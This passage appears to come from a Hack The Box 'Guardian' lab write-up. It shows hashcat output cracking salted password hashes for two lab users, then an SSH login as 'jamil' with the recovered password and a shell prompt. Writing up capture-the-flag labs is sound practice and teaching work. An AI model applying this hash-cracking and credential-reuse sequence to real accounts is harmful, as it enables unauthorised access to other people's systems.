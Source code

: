 ```
Candidates.#01...: !!rebound!! -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Util: 83%

Started: Fri Oct 24 21:00:13 2025
Stopped: Fri Oct 24 21:00:51 2025
```

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ hashcat -m 1410 hash.txt --show --username
Mixing --show with --username or --dynamic-x can cause exponential delay in output.

admin:694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS:fakebake000
jamil.enockson:c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56
```

## Shell as jamil

We got 2 set of creds which is **admin** and **jamil**, We can use this known creds to SSH as we known that **[port 22](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml?search=22)** is running from previous nmap scan.

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ ssh jamil@guardian.htb
jamil@guardian.htb's password:copperhouse56
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-152-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Oct 24 12:38:19 PM UTC 2025

  System load:  0.0               Processes:             249
  Usage of /:   79.2% of 8.12GB   Users logged in:       0
  Memory usage: 33%               IPv4 address for eth0: 10.10.11.84
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

8 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update                                                                                                                                                                      
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings                                                                                              

-bash-5.1$ whoami
jamil 

```
